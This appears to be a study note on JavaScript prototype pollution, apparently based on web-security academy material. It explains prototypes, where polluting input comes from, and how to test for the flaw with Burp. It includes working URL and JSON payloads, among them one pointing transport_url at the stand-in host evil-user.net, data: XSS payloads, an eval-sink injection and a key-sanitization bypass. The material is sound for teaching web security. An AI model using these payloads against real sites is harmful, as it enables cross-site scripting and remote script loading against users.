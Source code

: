 # Prototype pollution
Prototype pollution is a JavaScript vulnerability that enables an attacker to add arbitrary properties to global object prototypes, which may then be inherited by user-defined objects.  
JS object:
```
const user =  {
    username: "wiener",
    userId: 01234,
    isAdmin: false
}
```
You can access the properties of an object by using either dot notation or bracket notation to refer to their respective keys: 
```
user.username     // "wiener"
user['userId']    // 01234
```
As well as data, properties may also contain executable functions. In this case, the function is known as a "method". 
```
const user =  {
    username: "wiener",
    userId: 01234,
    exampleMethod: function(){
        // do something
    }
}
```
Prototypes:
```
let myObject = {};
Object.getPrototypeOf(myObject);    // Object.prototype

let myString = "";
Object.getPrototypeOf(myString);    // String.prototype

let myArray = [];
Object.getPrototypeOf(myArray);	    // Array.prototype

let myNumber = 1;
Object.getPrototypeOf(myNumber);    // Number.prototype
```
Objects automatically inherit all of the properties of their assigned prototype, unless they already have their own property with the same key. This enables developers to create new objects that can reuse the properties and methods of existing objects.  
The built-in prototypes provide useful properties and methods for working with basic data types. For example, the String.prototype object has a toLowerCase() method  
Whenever you reference a property of an object, the JavaScript engine first tries to access this directly on the object itself. If the object doesn't have a matching property, the JavaScript engine looks for it on the object's prototype instead  
We can check such behaviour in browser console:
```
let myObject = {};
myObject.
```
And after dot we will see all pre-defined properties from prototype  
Even though there are no properties or methods defined for the object itself, it has inherited some from the built-in Object.prototype.  
everything in JavaScript is an object under the hood, this chain ultimately leads back to the top-level Object.prototype, whose prototype is simply null.   
Objects inherit properties not just from their immediate prototype, but from all objects above them in the prototype chain  
Modifying prototypes:
```
let searchTerm = "  example ";
searchTerm.removeWhitespace();    // "example"
```
## How do prototype pollution vulnerabilities arise?
Prototype pollution vulnerabilities typically arise when a JavaScript function recursively merges an object containing user-controllable properties into an existing object, without first sanitizing the keys. This can allow an attacker to inject a property with a key like __proto__, along with arbitrary nested properties.  
Due to the special meaning of `__proto__` in a JavaScript context, the merge operation may assign the nested properties to the object's prototype instead of the target object itself. As a result, the attacker can pollute the prototype with properties containing harmful values, which may subsequently be used by the application in a dangerous way.  
It's possible to pollute any prototype object, but this most commonly occurs with the built-in global `Object.prototype`.  
## Prototype pollution sources
* The URL via either the query or fragment string (hash) 
* JSON-based input
* Web messages
## Prototype pollution via the URL
```
https://vulnerable-website.com/?__proto__[evilProperty]=payload
```
```
targetObject.__proto__.evilProperty = 'payload';
```
During this assignment, the JavaScript engine treats `__proto__` as a getter for the prototype. As a result, evilProperty is assigned to the returned prototype object rather than the target object itself. Assuming that the target object uses the default Object.prototype, all objects in the JavaScript runtime will now inherit evilProperty, unless they already have a property of their own with a matching key.  
In practice, injecting a property called evilProperty is unlikely to have any effect. However, an attacker can use the same technique to pollute the prototype with properties that are used by the application, or any imported libraries.  
## Prototype pollution via JSON input
```
{
    "__proto__": {
        "evilProperty": "payload"
    }
}
```
For example if site uses URL to import JS library, attacker can craft malicious URL to import own JS  
```
https://vulnerable-website.com/?__proto__[transport_url]=//evil-user.net
```
By providing a data: URL, an attacker could also directly embed an XSS payload within the query string as follows: 
```
https://vulnerable-website.com/?__proto__[transport_url]=data:,alert(1);//
```
Note that the trailing // in this example is simply to comment out the hardcoded /example.js suffix.  
## Client-side prototype pollution vulnerabilities
When testing for client-side vulnerabilities, this involves the following high-level steps:
* Try to inject an arbitrary property via the query string, URL fragment, and any JSON input. For example:
`vulnerable-website.com/?__proto__[foo]=bar`
* In your browser console, inspect Object.prototype to see if you have successfully polluted it with your arbitrary property: 
```
Object.prototype.foo
// "bar" indicates that you have successfully polluted the prototype
// undefined indicates that the attack was not successful
``` 
* If the property was not added to the prototype, try using different techniques, such as switching to dot notation rather than bracket notation, or vice versa:
```
vulnerable-website.com/?__proto__.foo=bar
```
Once you've identified a source that lets you add arbitrary properties to the global Object.prototype, the next step is to find a suitable gadget that you can use to craft an exploit  
1. Look through the source code and identify any properties that are used by the application or any libraries that it imports. 
2. Intercept the response containing the JavaScript that you want to test. 
3. Add a debugger statement at the start of the script, then forward any remaining requests and responses.
4. In Burp's browser, go to the page on which the target script is loaded. The debugger statement pauses execution of the script. 
5. While the script is still paused, switch to the console and enter the following command, replacing YOUR-PROPERTY with one of the properties that you think is a potential gadget:
```
Object.defineProperty(Object.prototype, 'YOUR-PROPERTY', {
    get() {
        console.trace();
        return 'polluted';
    }
})
```
6. Press the button to continue execution of the script and monitor the console. If a stack trace appears, this confirms that the property was accessed somewhere within the application. 
7. Expand the stack trace and use the provided link to jump to the line of code where the property is being read. 
8. Using the browser's debugger controls, step through each phase of execution to see if the property is passed to a sink, such as innerHTML or eval()
We can make this process easier with `DOM Invader` from Burp's browser  
  
Example of attack:
```
url/?__proto__[foo]=bar
```
Go to console and type `Object.prototype`. If we see foo: bar in properties, prototype was polluted  
Next we are detecting some object in js file such as `config.transport_url`  
Next, we are trying to set it's property to anything else:
```
/?__proto__[transport_url]=bar
```
Next we will check properties of `Object.prototype` in console and detect that `transport_url` property now equals `bar`  
And after that we are looking for some gadget where our property is reflected (for example sript src)  
And finally we craft payload to exploit  xss:
```
/?__proto__[transport_url]=data:,alert(document.domain);//
```
  
Another example:
if standard test didn't work, try to sue dot in place of brackets:
```
/?__proto__.foo=bar
```
Next we can detect sink such as `eval()` function and if there any object's property such as `manager.sequence`, we can try to pollute it:
```
/?__proto__.sequence=alert(document.domain)
```
If this doesn't work, set a breakpoint at console on the line of code which uses our polluted property and look what's wrong. In our case script added +1 to our script, so we can simply add ` -` to our payload.  
## Prototype pollution via the constructor
myObject.constructor.prototype is equivalent to myObject.__proto__, this provides an alternative vector for prototype pollution.  
## Bypassing flawed key sanitization
vulnerable-website.com/?__pro__proto__to__.gadget=payload  

